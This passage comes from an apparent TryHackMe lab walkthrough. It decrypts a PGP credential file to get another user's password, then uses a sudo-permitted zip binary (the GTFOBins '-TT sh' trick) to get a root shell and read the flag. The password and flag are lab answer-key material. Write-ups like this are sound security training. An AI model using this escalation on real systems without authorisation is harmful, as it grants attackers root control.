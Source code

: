 ```
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

We got the credentials for the other user "merlin", let switch the user and check if it has sudo access to any program:

```
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ cd
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

As you can see, we can use the zip program to break through and gain admin access:

```
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# pwd
/home/merlin
# cd /root
# ls
root.txt  ufw
# cat root.txt	
THM{Z1P_1S_FAKE}
```

HOORRAYY!!! WE ROOTED THE MACHINE..

# IMPORTANT 

Kindly review the Walkthrough as there is a guide on how to mitigate this vulnerabilty.

# REFERENCES:

- [GTFOBins](https://gtfobins.github.io/gtfobins/zip/)
- [PGP Encryption/Decryption](https://superuser.com/questions/1196165/pgp-file-decryption-from-linux-cmd-line)
- [Room Walkthrough](https://medium.com/@sushantkamble/apache-ghostcat-cve-2020-1938-explanation-and-walkthrough-23a9a1ae4a23)
